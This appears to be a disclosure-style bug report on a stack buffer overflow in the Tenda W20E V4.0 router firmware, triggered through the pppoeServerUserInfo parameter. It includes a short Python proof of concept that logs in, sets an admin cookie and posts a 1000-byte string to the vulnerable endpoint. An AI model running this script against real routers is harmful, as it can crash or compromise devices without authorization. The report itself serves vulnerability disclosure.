


# Bug Report: Buffer Overflow in Tenda W20E V4.0 V15.11.0.6 Router

A buffer overflow vulnerability has been identified in the Tenda W20E V4.0 V15.11.0.6 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information

Product: Tenda W20E V4.0 Router
Affected Version: V15.11.0.6
Vulnerability Type: Stack-based Buffer Overflow

## Description:

The vulnerable code path processes HTTP requests containing the pppoeServerUserInfo parameter. When pppoeServerUserInfo is specified with malformed or excessive data, the buffer overflow occurs during the processing of PPPoE user information in formAddPppUser.



## Poc

```python
import requests
import base64

host = "192.168.0.1"
s = requests.session()

def trigger_overflow():
    encoded_pwd = base64.b64encode(b"aaaa").decode()
    s.post(f"http://{host}/goform/setQuickCfgWifiAndLogin", data={"sysUserPassword": encoded_pwd})
    
    if not s.cookies.get("user"):
        s.cookies.set("user", "admin") 

    url = f"http://{host}/goform/addPPPoEServerUser"
    payload = "A" * 1000
    
    resp = s.post(url, data={"pppoeServerUserInfo": payload}, timeout=5)
    print(resp.content)


trigger_overflow()
```


